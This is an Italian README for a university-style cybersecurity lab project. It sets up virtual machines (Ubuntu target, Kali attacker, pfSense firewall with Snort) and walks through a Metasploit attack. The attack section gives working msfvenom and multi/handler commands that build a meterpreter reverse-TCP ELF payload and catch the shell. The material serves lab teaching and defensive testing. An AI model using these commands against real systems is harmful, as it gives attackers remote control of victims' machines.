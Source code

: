 
# ProjectAdvancedCybersecurity
Il seguente repository ha lo scopo di illustrare come configurare una rete di macchine virtuali al fine di testare alcuni software legati alla sicurezza informatica. L' architettura viene riportata in figura.
![gif](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/cf790f600260563cc2ccbdec3b8e531a6781d883/Screened-Network.drawio.png)
Le macchine virtuali sono le seguenti: 
 - **Target**: Ubuntu 22.04.2 LTS (con installato *Tripwire*)
 - **Attacker**: Kali 2023.1 (con installato *python3*)
 - **Firewall**: Pfsense 2.6.0 (con i pacchetti *Squid* e *Snort*)

Di seguito verranno esplicitati tutti i passi sia per simulare uno scenario di attacco a cui la nostra infrastruttura dovrà rispondere.
> Nota: nel repository si trovano le macchine già configurate (potrebbero esserci delle differenze nell'assegnazione degli indirizzi IP alle varie interfacce di rete o in ulteriori parametri)

***mettere configurazione adpter 

## Kali Attacker
Per effettuare l'attacco la macchina kali necessita di avere installato python3. 
```bash
sudo  apt update &&  sudo  apt upgrade -y
```
```bash
sudo apt install python3
```
Fatto ciò  si può procedere ad effettuare un attacco di reverse shell TCP verso la macchina target tramite *Metasploit*. Aprire 3 terminal:

 1. **Terminale**: Ottenere indirizzo ip del target 
 ```bash
ifconfig
```
 
 2. **Terminale**: Creare il pacchetto malevolo (eseguibile)
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.18 LPORT=4444 -f elf -o shell-x86.elf
```
Analizziamo i vari parametri:

-   _msfvenom_: il nome del programma principale, metasploit
-   _-p_: il payload da inserire. Può essere uno scritto da noi o, più comodamente, uno già presente in Metasploit.
-   _LHOST_: l'indirizzo IP al quale l'app infettata si connetterà. Può essere un indirizzo locale come un indirizzo esterno.
-   _LPORT_: la porta da utilizzare. Quella di default è proprio la 4444.
-  _-f_: formato del pacchetto
-   _-o_: il percorso dove andremo a salvare l'applicazione ricompilata, contenente il payload.

 3. **Terminale**: Ora dobbiamo essere pronti per accettare la connessione, quindi prepariamo una sessione attraverso metasplot.
```bash
msfconsle
```
Una volta aperta la console:
```bash
msf6> use exploit/multi/handler
msf6> set payload linux/x86/meterpreter/reverse_tcp
msf6> set LHOST 192.168.1.18
msf6> set LPORT 4444
msf6> exploit

[*] Started reverse handler on 192.168.1.18:4444
[*] Starting the payload handler...
```
Una volta che la vittima avrà installato ed eseguito il file *.elf*  verrà aperta una sessione con una reverse shell che permetterà alla macchina kali infettare il target



## Autori

- [@Mattia Scuriatti](https://github.com/Me77y99)
- [@Gatti Giada](https://github.com/)

